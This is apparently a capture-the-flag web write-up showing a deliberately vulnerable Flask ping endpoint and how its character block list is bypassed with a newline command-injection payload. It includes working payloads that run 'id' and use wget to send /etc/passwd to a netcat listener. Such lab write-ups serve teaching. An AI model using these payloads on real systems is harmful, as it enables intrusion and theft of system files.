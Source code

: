 ```yaml
---
title: "CYBEX - TakitoChall [ WEB ]"
date: 2022-02-27T18:35:38-05:00
draft: false
---
```


## __Introduction__

The objective of this challenge is to get an RCE, specifically to get the output of the `cat /etc/passwd` command.

```python
from flask import Flask
from flask import request
from os import system

app = Flask(__name__)

@app.route('/')
def rce():
    ip = request.args.get('ip')

    if ip is None:
        return 'Please use ?ip=127.0.0.1'

    for char in '&;|$()`':
        if char in ip:
            return 'Character {} is blocked'.format(char)

    system('ping -c 1 '+ip)
    return 'Ping sent'

if __name__ == '__main__':
    app.run()
```

Before starting the analysis we can notice at a glance that a ping is performed to the address we set in the `ip` parameter.

## __First sight__

When analyzing the code we notice that in line 14 we have several banned characters such as `&;|$()` and `. This is logical since command injection payloads usually carry these characters, as we can see in the following [link](https://github.com/payloadbox/command-injection-payload-list).

Another option we could try would be to convert them to another format such as base64, unicode, hexadecimal and various conversions that would help us achieve what we are looking for.

## __Exploitation__

In this case we are dealing with a CRLF injection. If you want to know more about this type of web vulnerability you can do so by clicking on the following [link](https://book.hacktricks.xyz/pentesting-web/crlf-0d-0a) which will redirect you to the official HackTricks website which has a very good review about this bug.

Once we know what we are dealing with, we can now crack the following code by typing in the `ip=` parameter the following payload:

```
%0Aid
```

![image](https://user-images.githubusercontent.com/88755387/154855417-06bf8edb-aff1-407d-8ded-8e92254209a0.png)

![image](https://user-images.githubusercontent.com/88755387/154855372-70dc930a-1785-4137-99f7-ccaaa5774058.png)

As we can see we have taken the output in the log which would be on the server side but what we are looking for is to print the output on the screen so that the client can view it.

With the following command and raising the port 443 we can get the output to our machine:

```
%0Awget --post-file=/etc/passwd 127.0.0.1:443
```

![image](https://user-images.githubusercontent.com/88755387/154859783-dcaae268-dd39-4616-afbc-63b40e775a54.png)

One line payload:

```
nc -lvp 443 & curl 127.0.0.1:5000/?ip=%0Awget%20--post-file=/etc/passwd%20127.0.0.1:443
```

I hope you liked! :D